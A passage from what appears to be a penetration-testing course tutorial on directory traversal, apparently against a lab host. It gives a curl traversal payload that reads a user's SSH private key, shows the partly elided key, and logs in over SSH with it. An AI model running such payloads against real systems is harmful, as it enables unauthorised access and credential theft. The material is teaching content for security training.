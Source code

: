 During web application assessments, we should understand that as soon as we've identified a possible vulnerability, such as with the "page" parameter in this case, we should not rely on a browser for testing. Browsers often try to parse or optimize elements for user friendliness. 

When performing web application testing, we should mainly use tools such as Burp, cURL, or a programming language of our choice.

Let's use curl to retrieve the SSH private key as we did with the browser:
```bash
kali@kali:~$ curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa
...
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAz+pEKI1OmULVSs8ojO/sZseiv3zf2dbH6LSyYuj3AHkcxIND7UTw
XdUTtUeeJhbTC0h5S2TWFJ3OGB0zjCqsEI16ZHsaKI9k2CfNmpl0siekm9aQGxASpTiYOs
KCZOFoPU6kBkKyEhfjB82Ea1VoAvx4J4z7sNx1+wydQ/Kf7dawd95QjBuqLH9kQIEjkOGf
BemTOAyCdTBxzUhDz1siP9uyofquA5vhmMXWyy68pLKXpiQqTF+foGQGG90MBXS5hwskYg
...
lpWPWFQro9wzJ/uJsw/lepsqjrg2UvtrkAAADBAN5b6pbAdNmsQYmOIh8XALkNHwSusaK8
bM225OyFIxS+BLieT7iByDK4HwBmdExod29fFPwG/6mXUL2Dcjb6zKJl7AGiyqm5+0Ju5e
hDmrXeGZGg/5unGXiNtsoTJIfVjhM55Q7OUQ9NSklONUOgaTa6dyUYGqaynvUVJ/XxpBrb
iRdp0z8X8E5NZxhHnarkQE2ZHyVTSf89NudDoXiWQXcadkyrIXxLofHPrQzPck2HvWhZVA
+2iMijw3FvY/Fp4QAAAA1vZmZzZWNAb2Zmc2VjAQIDBA==
-----END OPENSSH PRIVATE KEY-----
...
```

Let's use the private key to connect to the target system via SSH on port 2222. We can use the -i parameter to specify the stolen private key file and -p to specify the port. Before we can use the private key, we'll need to modify the permissions of the dt_key file so that only the user / owner can read the file; if we don't, the ssh program will throw an error stating that the access permissions are too open.
```bash
kali@kali:~$ ssh -i dt_key -p 2222 offsec@mountaindesserts.com
The authenticity of host '[mountaindesserts.com]:2222 ([192.168.50.16]:2222)' can't be established.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
...
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@         WARNING: UNPROTECTED PRIVATE KEY FILE!          @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
Permissions 0644 for '/home/kali/dt_key' are too open.
It is required that your private key files are NOT accessible by others.
This private key will be ignored.
...

kali@kali:~$ chmod 400 dt_key

kali@kali:~$ ssh -i dt_key -p 2222 offsec@mountaindesserts.com
...
offsec@68b68f3eb343:~$ 
```
On Linux, we usually use the /etc/passwd file to test directory
traversal vulnerabilities. On Windows, we can use the file **C:\Windows\System32\drivers\etc\hosts** to test directory traversal vulnerabilities, which is readable by all local users. By displaying this file, we can confirm the vulnerability exists and understand how the web application displays the contents of files.
